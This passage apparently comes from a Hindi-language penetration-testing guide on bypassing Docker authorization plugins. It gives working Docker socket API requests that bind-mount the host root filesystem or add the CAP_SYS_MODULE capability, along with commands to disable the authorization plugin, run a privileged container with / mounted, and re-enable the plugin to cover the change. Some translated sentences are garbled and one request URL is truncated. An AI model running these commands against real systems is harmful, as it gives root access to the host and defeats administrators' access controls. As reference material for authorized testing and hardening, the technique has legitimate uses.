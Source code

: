 **रूट में बाइंड्स** के साथ एक ही निर्देशिका का पालन करें और इस **अनुरोध** को Docker API में करें:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```
### HostConfig में माउंट

डॉकर API को इस **अनुरोध** को करते समय **रूट में बाइंड** के साथ एक ही निर्देश का पालन करें:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```
## जाँच न किया गया JSON विशेषता

संभावना है कि जब सिस्टम प्रशासक ने डॉकर फ़ायरवॉल कॉन्फ़िगर किया तो उन्होंने [API](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) के "**HostConfig**" के अंदर "**Capabilities**" जैसी किसी महत्वपूर्ण विशेषता को **भूल गए** हों। निम्नलिखित उदाहरण में इस गलत कॉन्फ़िगरेशन का दुरुपयोग करके **SYS\_MODULE** क्षमता के साथ एक कंटेनर बनाना और चलाना संभव है:
```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```
{% hint style="info" %}
**`HostConfig`** वह कुंजी है जिसमें आम तौर पर उन **रोचक** **विशेषाधिकार** होते हैं जिनसे कंटेनर से बाहर निकला जा सकता है। हालांकि, जैसा कि हम पहले ही चर्चा कर चुके हैं, ध्यान दें कि इसके बाहर Binds का उपयोग भी काम करता है और आपको प्रतिबंधों को छलकरने की अनुमति देता है।
{% endhint %}

## प्लगइन को निषेधित करना

यदि **सिस्टम प्रशासक** ने **भूलकर** **प्रतिबंध** लगाने की क्षमता को **निषेधित** करने की क्षमता को **भूल गए** है, तो आप इसका पूरी तरह से निषेधित करने का लाभ उठा सकते हैं!
```bash
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```
ध्यान दें कि **उच्चतम स्तर पर चढ़ाई के बाद प्लगइन को पुनः सक्रिय करें**, अन्यथा **डॉकर सेवा को पुनः आरंभ करने से काम नहीं चलेगा**!
